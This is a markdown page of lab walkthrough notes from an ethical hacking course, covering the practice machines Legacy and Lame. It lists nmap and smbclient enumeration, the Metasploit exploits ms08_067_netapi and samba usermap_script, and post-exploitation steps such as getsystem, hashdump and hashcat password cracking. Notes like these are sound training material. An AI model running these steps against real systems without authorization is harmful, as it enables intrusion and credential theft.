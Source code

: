 
<head>      
    <link rel="stylesheet" href="css/retro.css">
</head>

## Misc Writeups
----
### Summary

All systems covered in the section 12 'Mid-Course Capstone' (https://www.udemy.com/course/practical-ethical-hacking/learn/lecture/17398048#content)

----
#### Walkthrough - Legacy (Windows XP)
* nmap -A -T4 -p- 10.10.10.4
    * 139/145 are open (SMB)
* smbclient -L \\\\10.01.10.4\\ 
    * no connection
* msfconsole
    * search smb_version
    * use auxiliary/scanner/smb/smb_version
        * options: set rhosts 10.10.10.4
        * run / exploit
* google 'smb windows xp sp3 exploit' 
    * https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi
* msfconsole 
    * use exploit/windows/smb/ms08_067_netapi
        * options: set rhosts 10.10.10.4
        * run
    * meterpreter shell
        * getuid
        * route
        * ipconfig 
        * getsystem (priv escalation if not su)
        * hashdump (get be cracked offiline)
        * get CTFs     
---
####   Walkthrough - Lame (Ubuntu)
* nmap -A -T4 -p- 10.10.10.3
* scanning methods:
    * nmap (quick scan -> nmap -A -T4 -p- 10.10.10.3)
    * nmap (remove -A (speed killer). Then re-scan the specific ports only that have returned opened use hte -p switch)
* open ports
    * 21 FTP Anonymous Login allowed (the eploxit requires uploading a file and executinng a file)
    * 22 SSH (brute force or credentials gathering)
    * 139/445 netbios-ssn (SMB most likely )
    * 3632 distccd 
* smbclient -L \\\\10.01.10.3\\ 
    * Folder structure found!
* google: Samba 3.0.20-Debian (Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)
    * https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script
* msfconsole 
    * msf > use exploit/multi/samba/usermap_script
        * options: set rhosts 10.10.10.3
        * run
    * meterpreter shell:
        * getuid (root)
        * getsystem (no priv escalation)
        * get CTFs  
* review: Cracking Linux Password Hashes with Hashcat - https://www.youtube.com/watch?v=eq097dEB8Sw&feature=youtu.be 
    * look at shadow file
    * unshadow shadow file
    * crack passwords with hashcat
---
####   Walkthrough - Blue 
---
